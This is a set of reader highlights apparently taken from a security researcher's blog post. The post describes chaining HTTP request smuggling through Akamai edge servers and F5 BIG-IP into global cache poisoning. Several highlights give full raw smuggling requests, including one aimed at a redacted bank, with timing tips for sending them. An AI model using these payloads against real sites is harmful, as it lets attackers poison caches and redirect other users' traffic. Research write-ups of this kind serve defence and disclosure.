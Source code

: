 ```yaml
---
author: Malicious Group
aliases:
  - From Akamai to F5 to NTLM... With Love.
tags:
  - readwise/articles
url: https://blog.malicious.group/from-akamai-to-f5-to-ntlm/
date: 2024-08-20
---
```

# From Akamai to F5 to NTLM... With Love.

![rw-book-cover](https://blog.malicious.group/content/images/2023/10/comics-1.png)

## Highlights


> In this post, I am going to show the readers how I was able to abuse Akamai so I could abuse F5 to steal internal data
> [View Highlight](https://read.readwise.io/read/01hgzzns4s5bq7vr5xanzgwb9e)



> I am scanning targets with the CL.0 gadget **nameprefix1**
> [View Highlight](https://read.readwise.io/read/01hgzzptahqdjthr3rtjn943b4)



> ![](https://blog.malicious.group/content/images/2023/10/image-7.png)
>  The most obvious identifier in the above image is the smuggle gadget and variation being used. The **nameprefix1** is the smuggle gadget and the **TRACE** is a technique used to verify the gadget.
> [View Highlight](https://read.readwise.io/read/01hgzzr13wr1xcajnrcp1sprm1)



> Let's take a closer look at request 1, 2 and 3.
>  GET / HTTP/1.1
>  Host: redacted.tld
>  Accept-Encoding: gzip, deflate
>  Accept: */*, text/smuggle
>  Accept-Language: en-US;q=0.9,en;q=0.8
>  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
>  Connection: close
>  Cache-Control: max-age=0
>  Request 1 will always be a normal GET request to the endpoint in question.
> [View Highlight](https://read.readwise.io/read/01hgzzrv58gak2d83076ndabe9)



> Request 2 and 3 are identical, so in this example using the smuggle gadget detected above, **nameprefix1** using the **TRACE** variation, the requests will look like the following.
>  POST / HTTP/1.1
>  Host: redacted.tld
>  Accept-Encoding: gzip, deflate, br
>  Accept: */*
>  Accept-Language: en-US;q=0.9,en;q=0.8
>  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
>  Connection: keep-alive
>  Cache-Control: max-age=0
>  Content-Type: application/x-www-form-urlencoded
>  Foo: bar
>  Content-Length: 27
>  TRACE / HTTP/1.1
>  Smuggle:
> [View Highlight](https://read.readwise.io/read/01hgzzs4kk7drzgsdb8sc18k6t)



> Since we know the **TRACE** verb and the web root path worked to throw the 405 error, what happens if we use **GET** instead, with a endpoint like **/robots.txt**?
> [View Highlight](https://read.readwise.io/read/01hgzzxrmv72wekncfrtam9qmf)



> Let's start by modifying requests 2 and 3 using the following.
>  POST / HTTP/1.1
>  Host: redacted.tld
>  Accept-Encoding: gzip, deflate
>  Accept: */*, text/smuggle
>  Accept-Language: en-US;q=0.9,en;q=0.8
>  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
>  Connection: keep-alive
>  Cache-Control: max-age=0
>  Origin: https://p4p9itr608.com
>  Content-Type: application/x-www-form-urlencoded
>  Foo: bar
>  Content-Length: 35
>  GET /robots.txt HTTP/1.1
>  Smuggle:
> [View Highlight](https://read.readwise.io/read/01hgzzzjpbyjf083yjjhyznj5e)



> ![](https://blog.malicious.group/content/images/2023/10/image-12.png)
>  It worked! After 6 attempts, the smuggled request was working. By changing the verb, path and content-length to reflect the values, I was able to get the smuggled endpoint and verb by accessing the main site using tab 1 (the normal GET). This means that when a user tries to access **https://redacted.tld/** they will be redirected to **https://redacted.tld/robots.txt** without them doing anything other than accessing the same endpoint we poisoned, in this case, the / folder.
> [View Highlight](https://read.readwise.io/read/01hh001a0tj8bc50yjaxt8anv3)



> At this point in my research, I knew the following.
>  • I know of at least 1 gadget that effects Akamai Edge customers
>  • I know the gadget effects the global cache in a lot of instances
>  • I know I have some play with the smuggle content body for this gadget
>  This tells me now that I know there are a lot of vulnerable targets, I need to find a way to escalate the smuggle gadgets to increase impact
> [View Highlight](https://read.readwise.io/read/01hh004qccsqeg38zwx5gtybdn)



> Akamai edge customers, using F5's BIGIP have a global cache poisoning issue in most instances I found.
> [View Highlight](https://read.readwise.io/read/01hh008x4xzf7x76ta0f4bkdtm)



> Now that I know Akamai is allowing some odd smuggling behaviors, and I also know F5's BIGIP is vulnerable to a cache poisoning bug if the request is passed from Akamai edge.
> [View Highlight](https://read.readwise.io/read/01hh009k3ptkhm74wh63kfx6bt)



> I didn't find anything on the domain to chain to, so I went back to testing host header injections again, almost guaranteed rejection, but had to check. Here is the modified requests I was sending to this bank, same as before.
>  POST / HTTP/1.1
>  Host: redacted.bank.tld
>  Accept-Encoding: gzip, deflate
>  Accept: */*, text/smuggle
>  Accept-Language: en-US;q=0.9,en;q=0.8
>  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
>  Connection: keep-alive
>  Cache-Control: max-age=0
>  Origin: https://p4p9itr608.com
>  Content-Type: application/x-www-form-urlencoded
>  Foo: bar
>  Content-Length: 42
>  GET http://example.com HTTP/1.1
>  Smuggle:
> [View Highlight](https://read.readwise.io/read/01hh00c0j1snzwbyt098xynb8z)



> after pressing send 5 to 10 times quickly, check the results now!
>  ![](https://blog.malicious.group/content/images/2023/10/image-18.png)
> [View Highlight](https://read.readwise.io/read/01hh00c7d61jnmd2dbstcpkqpr)

